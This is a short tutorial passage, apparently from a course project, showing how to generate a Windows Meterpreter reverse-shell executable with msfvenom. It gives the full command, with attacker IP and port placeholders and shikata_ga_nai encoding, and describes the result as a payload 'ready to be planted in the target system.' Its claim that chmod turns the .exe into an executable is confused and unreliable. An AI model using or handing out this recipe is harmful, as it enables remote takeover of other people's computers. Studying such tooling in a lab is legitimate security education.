 # Creating a payload with Msfvenom

To create a Meterpreter reverse shell, execute the following command

**msfvenom -p windows/meterpreter/reverse_tcp lhost=[attacker ip] lport[attacker port] --platform windows -e x86/shikata_ga_nai -f exe -o [name of payload executable].exe**.

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/msfvenom.png" width="700">

Now we have an payload. While the file has an .exe extension, it is not actually an executable file yet. To do that, we need to make some changes to the file.

Execute the following command

**chmod 755 [name of payload executable].exe**

<img src="https://raw.githubusercontent.com/yukun2h4ng/1600final/yukun2h4ng-patch-1/images/executable.png" width="700">

Now we have a payload ready to be planted in the target system.
